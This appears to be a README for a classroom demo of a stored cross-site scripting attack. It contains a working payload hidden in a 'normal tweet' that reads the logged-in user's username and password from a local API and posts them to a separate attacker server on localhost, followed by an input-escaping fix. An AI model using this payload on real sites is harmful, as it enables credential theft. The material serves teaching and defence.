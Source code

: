 # XSS example for Security 2

Extremely simple example of an XSS attack. This case is used to see security analysis and protocols working in practice. 

### Installing and Running

Install with npm
```
npm install
```

Start two servers: the server hosting the page and a malicious server.
```
node server/server.js
node attacker/eve.js
json-server --watch db.json --port 3004

// Begin Tweet

Just a normal tweet not an secret script or something
<script>
    $.get('http://localhost:3004/users', function (data, status) {
        for (var i = 0; i < data.length; i++) {
            var obj = data[i];
            if (obj.userName === localStorage.getItem("User")) {
                const data2 = `Username=${obj.userName} - Password=${obj.password}`;
                $.ajax({
                    url: 'http://localhost:3007',
                    method: 'POST',
                    type: 'jsonp',
                    data: data2
                })
            }
        }
    })
</script>

// End Tweet

Mitigation = Validation on the tweet message by adding this to the post in index.html

const message = $('#tweet').val();
const edited = message.replace(/&/g, "&amp;").replace(/>/g, "&gt;").replace(/</g, "&lt;").replace(/"/g, "&quot;");
const data = {
                tweet: edited,
                author: localStorage.getItem('User')
            }


